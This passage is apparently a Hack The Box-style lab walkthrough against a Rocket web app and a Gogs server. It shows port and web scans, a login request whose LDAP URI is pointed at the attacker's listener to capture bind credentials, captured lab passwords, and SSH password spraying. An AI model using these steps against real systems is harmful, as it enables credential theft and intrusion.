Same as usual I will perform a full scan of all the TCP ports open on the machine.

```bash
ORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:b6:ea:1a:74:33:80:7a:82:17:bb:9e:4b:f9:37:d1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDc+QirIo5h3pHwq1LUqfd6/HLBFxtOe++1EGY31O+l25rxZRWXrUtZhvEWQZ4x4xDYHhwYVFihyeRtxW1WJP/w4lnYjRZcaHMfkygqdRApSZ8sDe0UoPY+PriuKtrB2hDcXx30+GZzTi2zOXWFRgNodAEBcLMYUmC3keFwbynPuBUzChEpbLZJiwilRfRaHVXJyUu+ai6Dk5WAIyrDG4SJBcHgxnM+3xumpHyulKLazAZZQyKlovJ6R8lj8HRkTj47UYUzZ19jIOeBgS+Xx3eXuG/cU4YNRjDgoCdcLvDrD6SJTYLZP1jkYr49WSXVfAB8YxwVh49Z4AXpzl98NdtZ
|   256 fa:80:84:a2:e4:3a:2d:1f:8a:9b:23:6e:01:8e:da:be (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD6pStj4wjWZoix1ZBW0ry7ooJVS45sXrendVEKUjZS534MrrhFKsUDv07R+hrrwaeiiUj2qk9/c8rOP4ZlMaLE=
|   256 a4:2f:d9:45:84:88:0f:23:0f:a1:97:ff:43:b1:c3:23 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDpzykAXoA3r/pQPicIXy9zew64SRULVpPua/fSZzap1
80/tcp   open  http    syn-ack ttl 63 Rocket
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Rocket
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     content-length: 0
|     date: Fri, 10 Apr 2026 13:47:01 GMT
|   FourOhFourRequest, HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     content-type: text/plain; charset=utf-8
|     server: Rocket
|     x-content-type-options: nosniff
|     x-frame-options: SAMEORIGIN
|     permissions-policy: interest-cohort=()
|     content-length: 15
|     date: Fri, 10 Apr 2026 13:46:55 GMT
|     Error Code: 404
|   RTSPRequest, X11Probe: 
|     HTTP/1.1 400 Bad Request
|     content-length: 0
|_    date: Fri, 10 Apr 2026 13:46:55 GMT
|_http-title: Index - Sogard Brewing Co
3000/tcp open  http    syn-ack ttl 62 Golang net/http server
| http-methods: 
|_  Supported Methods: GET HEAD
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gogs=4c5e3e6538185e7e; Path=/; HttpOnly
|     Set-Cookie: _csrf=K8o_aaL-nCb2_JFGmXPQ2_RPD506MTc3NTgyODgxNTkwMDYyMDQ2NA; Path=/; Domain=10.10.110.21; Expires=Sat, 11 Apr 2026 13:46:55 GMT; HttpOnly
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     Date: Fri, 10 Apr 2026 13:46:55 GMT
|     <!DOCTYPE html>
|     <html>
|     <head data-suburl="">
|     <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge"/>
|     <meta name="author" content="Gogs" />
|     <meta name="description" content="Gogs is a painless self-hosted Git service" />
|     <meta name="keywords" content="go, git, self-hosted, gogs">
|     <meta name="referrer" content="no-referrer" />
|     <meta name="_csrf" content="K8o_aaL-nCb2_JFGmXPQ2_RPD506MTc3NTgyODgxNTkwMD
|   HTTPOptions: 
|     HTTP/1.0 500 Internal Server Error
|     Content-Type: text/plain; charset=utf-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     X-Content-Type-Options: nosniff
|     Date: Fri, 10 Apr 2026 13:46:56 GMT
|     Content-Length: 108
|     template: base/footer:15:47: executing "base/footer" at <.PageStartTime>: invalid value; expected time.Time
|   Help, RTSPRequest, SSLSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request
|_http-title: Gogs
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.98%I=7%D=4/10%Time=69D8FF4E%P=x86_64-pc-linux-gnu%r(HTTP
SF:Options,101,"HTTP/1\.0\x20404\x20Not\x20Found\r\ncontent-type:\x20text/
SF:plain;\x20charset=utf-8\r\nserver:\x20Rocket\r\nx-content-type-options:
SF:\x20nosniff\r\nx-frame-options:\x20SAMEORIGIN\r\npermissions-policy:\x2
SF:0interest-cohort=\(\)\r\ncontent-length:\x2015\r\ndate:\x20Fri,\x2010\x
SF:20Apr\x202026\x2013:46:55\x20GMT\r\n\r\nError\x20Code:\x20404")%r(RTSPR
SF:equest,54,"HTTP/1\.1\x20400\x20Bad\x20Request\r\ncontent-length:\x200\r
SF:\ndate:\x20Fri,\x2010\x20Apr\x202026\x2013:46:55\x20GMT\r\n\r\n")%r(X11
SF:Probe,54,"HTTP/1\.1\x20400\x20Bad\x20Request\r\ncontent-length:\x200\r\
SF:ndate:\x20Fri,\x2010\x20Apr\x202026\x2013:46:55\x20GMT\r\n\r\n")%r(Four
SF:OhFourRequest,101,"HTTP/1\.0\x20404\x20Not\x20Found\r\ncontent-type:\x2
SF:0text/plain;\x20charset=utf-8\r\nserver:\x20Rocket\r\nx-content-type-op
SF:tions:\x20nosniff\r\nx-frame-options:\x20SAMEORIGIN\r\npermissions-poli
SF:cy:\x20interest-cohort=\(\)\r\ncontent-length:\x2015\r\ndate:\x20Fri,\x
SF:2010\x20Apr\x202026\x2013:46:55\x20GMT\r\n\r\nError\x20Code:\x20404")%r
SF:(RPCCheck,54,"HTTP/1\.1\x20400\x20Bad\x20Request\r\ncontent-length:\x20
SF:0\r\ndate:\x20Fri,\x2010\x20Apr\x202026\x2013:47:01\x20GMT\r\n\r\n")%r(
SF:DNSVersionBindReqTCP,54,"HTTP/1\.1\x20400\x20Bad\x20Request\r\ncontent-
SF:length:\x200\r\ndate:\x20Fri,\x2010\x20Apr\x202026\x2013:47:01\x20GMT\r
SF:\n\r\n")%r(DNSStatusRequestTCP,54,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\ncontent-length:\x200\r\ndate:\x20Fri,\x2010\x20Apr\x202026\x2013:47:0
SF:1\x20GMT\r\n\r\n")%r(Help,54,"HTTP/1\.1\x20400\x20Bad\x20Request\r\ncon
SF:tent-length:\x200\r\ndate:\x20Fri,\x2010\x20Apr\x202026\x2013:47:01\x20
SF:GMT\r\n\r\n")%r(SSLSessionReq,54,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:ncontent-length:\x200\r\ndate:\x20Fri,\x2010\x20Apr\x202026\x2013:47:01
SF:\x20GMT\r\n\r\n")%r(TerminalServerCookie,54,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\ncontent-length:\x200\r\ndate:\x20Fri,\x2010\x20Apr\x202026\
SF:x2013:47:01\x20GMT\r\n\r\n")%r(TLSSessionReq,54,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\ncontent-length:\x200\r\ndate:\x20Fri,\x2010\x20Apr\x202
SF:026\x2013:47:01\x20GMT\r\n\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port3000-TCP:V=7.98%I=7%D=4/10%Time=69D8FF4E%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,205F,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:\x20text/html;\x2
SF:0charset=UTF-8\r\nSet-Cookie:\x20lang=en-US;\x20Path=/;\x20Max-Age=2147
SF:483647\r\nSet-Cookie:\x20i_like_gogs=4c5e3e6538185e7e;\x20Path=/;\x20Ht
SF:tpOnly\r\nSet-Cookie:\x20_csrf=K8o_aaL-nCb2_JFGmXPQ2_RPD506MTc3NTgyODgx
SF:NTkwMDYyMDQ2NA;\x20Path=/;\x20Domain=10\.10\.110\.21;\x20Expires=Sat,\x
SF:2011\x20Apr\x202026\x2013:46:55\x20GMT;\x20HttpOnly\r\nX-Content-Type-O
SF:ptions:\x20nosniff\r\nX-Frame-Options:\x20deny\r\nDate:\x20Fri,\x2010\x
SF:20Apr\x202026\x2013:46:55\x20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html>\n<he
SF:ad\x20data-suburl=\"\">\n\t<meta\x20http-equiv=\"Content-Type\"\x20cont
SF:ent=\"text/html;\x20charset=UTF-8\"\x20/>\n\t<meta\x20http-equiv=\"X-UA
SF:-Compatible\"\x20content=\"IE=edge\"/>\n\t\n\t\t<meta\x20name=\"author\
SF:"\x20content=\"Gogs\"\x20/>\n\t\t<meta\x20name=\"description\"\x20conte
SF:nt=\"Gogs\x20is\x20a\x20painless\x20self-hosted\x20Git\x20service\"\x20
SF:/>\n\t\t<meta\x20name=\"keywords\"\x20content=\"go,\x20git,\x20self-hos
SF:ted,\x20gogs\">\n\t\n\t<meta\x20name=\"referrer\"\x20content=\"no-refer
SF:rer\"\x20/>\n\t<meta\x20name=\"_csrf\"\x20content=\"K8o_aaL-nCb2_JFGmXP
SF:Q2_RPD506MTc3NTgyODgxNTkwMD")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x2
SF:0close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,14A,"HTTP/1\.0\x205
SF:00\x20Internal\x20Server\x20Error\r\nContent-Type:\x20text/plain;\x20ch
SF:arset=utf-8\r\nSet-Cookie:\x20lang=en-US;\x20Path=/;\x20Max-Age=2147483
SF:647\r\nX-Content-Type-Options:\x20nosniff\r\nDate:\x20Fri,\x2010\x20Apr
SF:\x202026\x2013:46:56\x20GMT\r\nContent-Length:\x20108\r\n\r\ntemplate:\
SF:x20base/footer:15:47:\x20executing\x20\"base/footer\"\x20at\x20<\.PageS
SF:tartTime>:\x20invalid\x20value;\x20expected\x20time\.Time\n")%r(RTSPReq
SF:uest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pl
SF:ain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Requ
SF:est")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent
SF:-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n4
SF:00\x20Bad\x20Request");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
TCP/IP fingerprint:
OS:SCAN(V=7.98%E=4%D=4/10%OT=22%CT=%CU=34487%PV=Y%DS=2%DC=T%G=N%TM=69D8FF66
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10F%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M552ST11NW7%O2=M552ST11NW7%O3=M552NNT11NW7%O4=M552ST11NW7%O5=M552ST11
OS:NW7%O6=M552ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M552NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%R
OS:UD=G)IE(R=Y%DFI=N%T=40%CD=S)

```

# HTTP

From the main site I see that the email is pointing to another domain that the one advised in the frontend:

```html
      <footer class="ct-footer">
        <section class="ct-preFooter">
          <div class="container">
            <div class="row ct-row">
              <div class="col-lg-4 col-md-4 col-sm-6 col-xs-12 text-left"><a href="/"></a></div>
              <div class="col-lg-3 col-md-3 col-sm-6 col-xs-12 ct-contactBox">
                <h6 class="ct-headerBottom">Contact us</h6>
                <ul class="list-unstyled ct-contactList">
                  <li>Address:<br/> Folkestone, Kent, CT19 5QS<i data-icon-size="22" data-left="0" class="fa fa-map-marker ct-js-iconSize ct-js-position"></i></li>
                  <li>Phone:<br/>Tel:<a href="tel:070088087">&nbsp;(+44) 843 4543 4553</a><i data-icon-size="20" data-left="-2" class="fa fa-phone ct-js-iconSize ct-js-position"></i></li>
                  <li>Web:<br/></a><a href="mailto:support@sogard.htb">info@alchemy.htb</a><i data-icon-size="16" data-left="-2" class="fa fa-envelope ct-js-iconSize ct-js-position"></i></li>
                </ul>
              </div>
              <div clas
```

Now If i try to book a table I can see that the backend is named rocket?



Same if I try to send an email:



Now a quick google shows that [this](https://rocket.rs/) might be using a web-framework written in rust? And offcourse no CVEs are out in the wild but, I see that the site might have a login capability?

```bash
Target: http://10.10.110.21/

[09:56:15] Starting: 
[09:56:21] 500 -   21B  - /admin
[09:56:21] 500 -   21B  - /admin/
[09:56:29] 200 -   11KB - /contact
[09:56:32] 200 -   13KB - /events
[09:56:36] 200 -   10KB - /login
[09:56:36] 200 -   10KB - /login/
[09:56:38] 200 -   36KB - /menu
[09:56:47] 200 -    2B  - /status
[09:56:47] 200 -    2B  - /status/
[09:56:47] 200 -    2B  - /status?full=true
[09:56:47] 200 -   13KB - /store
```

But that login link seems validating agains a LDAP server?

```http
//Request
POST /login HTTP/1.1
Host: sogard.htb
Content-Length: 92
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://sogard.htb
Referer: http://sogard.htb/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive

username=hello&password=hello&ldapuri=ldap%3A%2F%2F172.16.0.2%3A389&email_subject=Login+Form


//Response
HTTP/1.1 200 OK
server: Rocket
x-frame-options: SAMEORIGIN
permissions-policy: interest-cohort=()
x-content-type-options: nosniff
content-length: 0
date: Mon, 20 Apr 2026 08:16:15 GMT


```

Now the idea is what happens if I perform a quick redirect of the LDAP and sniff the creds on my machine:

```http
POST /login HTTP/1.1
Host: sogard.htb
Content-Length: 93
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://sogard.htb
Referer: http://sogard.htb/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive

username=hello&password=hello&ldapuri=ldap%3a%2f%2f10.10.14.21%3a389&email_subject=Login+Form
```

Now I can see the credentials used to setup the LDAP query, it's a lot of gibberish but you get the idea:

```bash
└─$ nc -lnvp 389                                                      
listening on [any] 389 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.110.21] 38482
06`1calde_ldap@alchemy.htb�CsAdlLDAPMoDeBrnd12!
```

# GOGS

The service running on the port 3000/TCP shows that this is a self-hosted gitlab "like" variant called "Gogs" and immediately I can see traces of 3 different usernames in the public repositories:



I can also see that the server is connected to perform a LDAP authentication as well agains a domain server.



Now I see that one of the users might be giving an hint about how this Gogs coud be abused?



Now with the credentials from Gogs I can see there are some collaborative repositories?



Now that rusty seems only a fork of an existen repositry so far:



Now scounting the current code it is possible to see another password saved in one of the PCL repositories:



Except this, nothing other interesting came out so far... Now it is time to move forward and try to obtain a RCE via that Gogs CVE. Now not even Nuclei can identify it.

```bash
└─$ nuclei -u http://sogard.htb:3000/

                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v3.7.1

        projectdiscovery.io

[INF] Current nuclei version: v3.7.1 (outdated)
[INF] Current nuclei-templates version: v10.4.2 (latest)
[INF] New templates added in latest release: 121
[INF] Templates loaded for current scan: 10095
[INF] Executing 10079 signed templates from projectdiscovery/nuclei-templates
[WRN] Loading 16 unsigned templates for scan. Use with caution.
[INF] Targets loaded for current scan: 1
[INF] Templates clustered: 2281 (Reduced 2154 Requests)
[INF] Using Interactsh Server: oast.pro
[cookies-without-secure] [javascript] [info] sogard.htb:3000 ["lang","i_like_gogs","_csrf"]
[cookies-without-httponly] [javascript] [info] sogard.htb:3000 ["lang"]
[snmpv3-detect] [javascript] [info] sogard.htb:3000 ["Enterprise: unknown"]
[missing-cookie-samesite-strict] [http] [info] http://sogard.htb:3000/ ["lang=en-US; Path=/; Max-Age=2147483647 i_like_gogs=cbed1e31748e20a2; Path=/; HttpOnly _csrf=WWAilipU8uiN4fforMTT_TtQUds6MTc3NjY4MDEwODIzMDUyMDYxMw; Path=/; Domain=10.10.110.21; Expires=Tue, 21 Apr 2026 10:15:08 GMT; HttpOnly"]
[tech-detect:font-awesome] [http] [info] http://sogard.htb:3000/
[gogs-panel] [http] [info] http://sogard.htb:3000/user/login
[CVE-2019-11248] [http] [high] http://sogard.htb:3000/debug/pprof/
[INF] Skipped [sogard.htb:3000]:5814 from target list as found unresponsive permanently: Get "https://sogard.htb:3000:5814/autopass": cause="no address found for host"
[INF] Skipped sogard.htb:3000 from target list as found unresponsive permanently: cause="no address found for host" chain="got err while executing https://sogard.htb:3000:5814/autopass"
[http-missing-security-headers:referrer-policy] [http] [info] http://sogard.htb:3000/
[http-missing-security-headers:clear-site-data] [http] [info] http://sogard.htb:3000/
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://sogard.htb:3000/
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://sogard.htb:3000/
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://sogard.htb:3000/
[http-missing-security-headers:cross-origin-opener-policy] [http] [info] http://sogard.htb:3000/
[http-missing-security-headers:missing-content-type] [http] [info] http://sogard.htb:3000/
[http-missing-security-headers:strict-transport-security] [http] [info] http://sogard.htb:3000/
[http-missing-security-headers:content-security-policy] [http] [info] http://sogard.htb:3000/
[http-missing-security-headers:permissions-policy] [http] [info] http://sogard.htb:3000/
[INF] Skipped sogard.htb:4040 from target list as found unresponsive permanently: cause="port closed or filtered" address=sogard.htb:4040 chain="connection refused; got err while executing http://sogard.htb:4040/jobs/"
[INF] Skipped sogard.htb:3000 from target list as found unresponsive permanently: cause="no address found for host" chain="got err while executing https://www.rdap.net/domain/sogard.htb"
[INF] Scan completed in 2m. 17 matches found.
                                                      
```

Now seems like none of the recend POC works here but a quick check shows that the user in Gogs uses the same password from the PLC repository?

```bash
netexec ssh 10.10.110.0/24 -u users_linux.txt -p 'LandIAtErOUs'        
SSH         10.10.110.21    22     10.10.110.21     [*] SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.5
SSH         10.10.110.100   22     10.10.110.100    [*] SSH-2.0-OpenSSH_8.4p1 Debian-5+deb11u3
SSH         10.10.110.21    22     10.10.110.21     [-] calde_ldap:LandIAtErOUs
SSH         10.10.110.21    22     10.10.110.21     [-] calde:LandIAtErOUs
SSH         10.10.110.21    22     10.10.110.21     [+] aepike:LandIAtErOUs  Linux - Shell access!
SSH         10.10.110.100   22     10.10.110.100    [-] calde_ldap:LandIAtErOUs
SSH         10.10.110.100   22     10.10.110.100    [-] calde:LandIAtErOUs
SSH         10.10.110.100   22     10.10.110.100    [-] aepike:LandIAtErOUs
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

# Foothold into the System

The first flag is disguised in the Gogs as the current user "**Aepike**":



Now from the Gogs folder I can see where the config is located:

```bash
aepike@web01:/opt/gogs/git/.ssh$ cat environment 
GOGS_CUSTOM=/data/gogs

```

I can see the data config file:

```bash
aepike@web01:/opt/gogs/gogs/conf$ cat app.ini 
BRAND_NAME = Gogs
RUN_USER   = git
RUN_MODE   = prod

[database]
TYPE     = sqlite3
HOST     = 127.0.0.1:5432
NAME     = gogs
SCHEMA   = public
USER     = gogs
PASSWORD = 
SSL_MODE = disable
PATH     = data/gogs.db

[repository]
ROOT           = /data/git/gogs-repositories
DEFAULT_BRANCH = master

[server]
DOMAIN           = localhost
HTTP_PORT        = 3000
EXTERNAL_URL     = http://10.10.110.21:3000/
DISABLE_SSH      = false
SSH_PORT         = 22
START_SSH_SERVER = false
